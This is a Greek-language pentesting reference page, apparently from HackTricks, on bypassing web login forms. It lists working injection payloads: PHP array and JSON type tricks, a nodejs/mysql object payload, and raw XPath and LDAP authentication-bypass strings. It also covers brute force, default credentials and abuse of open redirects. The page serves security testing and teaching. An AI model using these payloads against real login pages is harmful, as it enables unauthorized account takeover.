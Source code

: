 # Login Bypass

{{#include ../../banners/hacktricks-training.md}}

## **Παράκαμψη κανονικής σύνδεσης**

Αν βρείτε μια σελίδα σύνδεσης, εδώ μπορείτε να βρείτε μερικές τεχνικές για να προσπαθήσετε να την παρακάμψετε:

- Ελέγξτε για **σχόλια** μέσα στη σελίδα (κύληση προς τα κάτω και προς τα δεξιά;)
- Ελέγξτε αν μπορείτε να **έχετε άμεση πρόσβαση στις περιορισμένες σελίδες**
- Ελέγξτε να **μη στείλετε τις παραμέτρους** (μη στείλετε καμία ή μόνο 1)
- Ελέγξτε το **σφάλμα συγκρίσεων PHP:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **Αλλάξτε τον τύπο περιεχομένου σε json** και στείλτε τιμές json (συμπεριλαμβανομένου του bool true)
- Αν λάβετε μια απάντηση που λέει ότι το POST δεν υποστηρίζεται, μπορείτε να προσπαθήσετε να στείλετε το **JSON στο σώμα αλλά με αίτημα GET** με `Content-Type: application/json`
- Ελέγξτε το πιθανό σφάλμα ανάλυσης nodejs (διαβάστε [**αυτό**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
- Το nodejs θα μετατρέψει αυτό το payload σε ένα ερώτημα παρόμοιο με το εξής: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` το οποίο καθιστά το bit του κωδικού πρόσβασης πάντα αληθές.
- Αν μπορείτε να στείλετε ένα αντικείμενο JSON, μπορείτε να στείλετε `"password":{"password": 1}` για να παρακάμψετε τη σύνδεση.
- Θυμηθείτε ότι για να παρακάμψετε αυτή τη σύνδεση πρέπει ακόμα να **γνωρίζετε και να στείλετε ένα έγκυρο όνομα χρήστη**.
- **Προσθέτοντας την επιλογή `"stringifyObjects":true`** κατά την κλήση του `mysql.createConnection` θα μπλοκάρει τελικά όλες τις απροσδόκητες συμπεριφορές όταν το `Object` περάσει ως παράμετρος.
- Ελέγξτε τα διαπιστευτήρια:
- [**Προεπιλεγμένα διαπιστευτήρια**](../../generic-hacking/brute-force.md#default-credentials) της τεχνολογίας/πλατφόρμας που χρησιμοποιείται
- **Κοινές συνδυασμοί** (root, admin, password, όνομα της τεχνολογίας, προεπιλεγμένος χρήστης με έναν από αυτούς τους κωδικούς πρόσβασης).
- Δημιουργήστε ένα λεξικό χρησιμοποιώντας **Cewl**, **προσθέστε** το **προεπιλεγμένο** όνομα χρήστη και κωδικό πρόσβασης (αν υπάρχει) και προσπαθήστε να το σπάσετε χρησιμοποιώντας όλες τις λέξεις ως **ονόματα χρήστη και κωδικούς πρόσβασης**
- **Brute-force** χρησιμοποιώντας ένα μεγαλύτερο **λεξικό (**[**Brute force**](../../generic-hacking/brute-force.md#http-post-form)**)**

### SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **SQL injections**](../sql-injection/index.html#authentication-bypass).

Στην επόμενη σελίδα μπορείτε να βρείτε μια **προσαρμοσμένη λίστα για να προσπαθήσετε να παρακάμψετε τη σύνδεση** μέσω SQL Injections:

{{#ref}}
sql-login-bypass.md
{{#endref}}

### No SQL Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **No SQL Injections**](../nosql-injection.md#basic-authentication-bypass)**.**

Καθώς οι NoSQL Injections απαιτούν να αλλάξετε την τιμή των παραμέτρων, θα χρειαστεί να τις δοκιμάσετε χειροκίνητα.

### XPath Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε τη σύνδεση μέσω **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Εδώ μπορείτε να βρείτε διάφορα κόλπα για να παρακάμψετε την είσοδο μέσω **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Θυμήσου Με

Αν η σελίδα έχει λειτουργία "**Θυμήσου Με**", έλεγξε πώς είναι υλοποιημένη και δες αν μπορείς να την εκμεταλλευτείς για να **αναλάβεις άλλους λογαριασμούς**.

### Ανακατευθύνσεις

Οι σελίδες συνήθως ανακατευθύνουν τους χρήστες μετά την είσοδο, έλεγξε αν μπορείς να αλλάξεις αυτή την ανακατεύθυνση για να προκαλέσεις μια [**Ανοιχτή Ανακατεύθυνση**](../open-redirect.md). Ίσως μπορέσεις να κλέψεις κάποιες πληροφορίες (κωδικούς, cookies...) αν ανακατευθύνεις τον χρήστη στην ιστοσελίδα σου.

## Άλλοι Έλεγχοι

- Έλεγξε αν μπορείς να **αριθμήσεις ονόματα χρηστών** εκμεταλλευόμενος τη λειτουργία εισόδου.
- Έλεγξε αν είναι ενεργοποιημένο το **αυτόματη συμπλήρωση** στις φόρμες κωδικού/**ευαίσθητων** πληροφοριών **εισόδου:** `<input autocomplete="false">`

## Αυτόματα Εργαλεία

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
